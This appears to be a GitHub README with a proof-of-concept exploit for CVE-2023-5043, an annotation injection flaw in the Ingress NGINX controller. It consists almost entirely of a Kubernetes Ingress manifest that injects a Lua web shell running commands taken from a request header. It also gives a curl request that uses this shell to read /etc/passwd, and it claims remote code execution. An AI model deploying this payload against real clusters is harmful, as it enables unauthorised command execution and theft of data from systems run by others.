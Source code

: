 # CVE-2023-5043
**Ingress nginx annotation injection causes arbitrary command execution**

1. Create Ingress (can be created without Service and Pod)
```yaml
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
  name: ingress-exploit
  annotations:
    kubernetes.io/ingress.class: "nginx"
    nginx.ingress.kubernetes.io/configuration-snippet: |
      more_set_headers "robinak"
            proxy_pass http://upstream_balancer;
                                proxy_redirect                          off;
        }
        location /robinak/ { content_by_lua_block { local rsfile = io.popen(ngx.req.get_headers()["cmd"]);local rschar = rsfile:read("*all");ngx.say(rschar); } } location /fs/{
spec:
  rules:
  - host: robinak.me
    http:
      paths:
      - path: /
        pathType: Prefix
        backend:
          service:
            name: exploit
            port:
              number: 80
```
2. Make request by specifying the public address of your Ingress NGINX controller:
```bash
curl -v -H 'Host: robinak.me' -H "cmd: cat /etc/passwd" http://IP/robinak/
```
3. Got RCE
![1cveed](https://github.com/r0binak/CVE-2023-5043/assets/80983900/218a28ca-5f7f-427e-87a4-c025ff97f496)
